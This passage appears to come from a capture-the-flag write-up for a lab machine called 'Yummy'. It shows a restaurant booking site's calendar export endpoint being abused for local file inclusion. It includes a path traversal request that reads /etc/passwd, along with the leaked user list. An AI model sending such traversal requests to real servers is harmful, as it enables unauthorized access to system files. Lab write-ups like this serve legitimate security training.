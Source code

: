 ![image](/assets/img/2025-02-25-Yummy/Pasted%20image%2020250123173327.png)\
Booking page:\
![image](/assets/img/2025-02-25-Yummy/Pasted%20image%2020250123173338.png)
Once we book a table an entry appears in the dashboard of the user with the corressponding email:
![image](/assets/img/2025-02-25-Yummy/Pasted image 20250123173631.png)
Intercepting the `Save ICalendar` button shows `export` an interesting endpoint that downloads files:
![image](/assets/img/2025-02-25-Yummy/Pasted image 20250128230442.png)
which we can use to trigger a LFI:

```
GET /export/../../../../../../../../../../etc/passwd HTTP/1.1
<SNIP>
```

Which gets us `/etc/passwd`

```
<SNIP>
dev:x:1000:1000:dev:/home/dev:/bin/bash
mysql:x:110:110:MySQL Server,,,:/nonexistent:/bin/false
caddy:x:999:988:Caddy web server:/var/lib/caddy:/usr/sbin/nologin
postfix:x:111:112::/var/spool/postfix:/usr/sbin/nologin
qa:x:1001:1001::/home/qa:/bin/bash
_laurel:x:996:987::/var/log/laurel:/bin/false
```
